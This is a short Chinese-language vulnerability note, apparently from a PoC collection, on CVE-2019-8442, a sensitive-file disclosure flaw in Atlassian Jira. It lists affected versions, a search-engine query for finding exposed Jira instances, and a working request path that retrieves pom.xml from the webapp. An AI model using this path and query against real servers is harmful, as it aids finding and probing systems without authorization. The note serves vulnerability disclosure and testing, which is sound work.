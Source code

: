 # Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

# Atlassian Jira com.atlassian.jira 敏感信息泄漏 CVE-2019-8442

## 漏洞描述

Atlassian Jira是澳大利亚Atlassian公司的一套缺陷跟踪管理系统。该系统主要用于对工作中各类问题、缺陷进行跟踪管理。 远程攻击者可利用该漏洞访问Jira webroot中的文件。

## 漏洞影响

```
Atlassian Jira < 7.13.4
Atlassian Jira 8.00-8.0.4
Atlassian Jira 8.1.0-8.1.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

登录页面

![](/images/202205241425263.png)

验证POC

```
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```

![](/images/202205241425438.png)

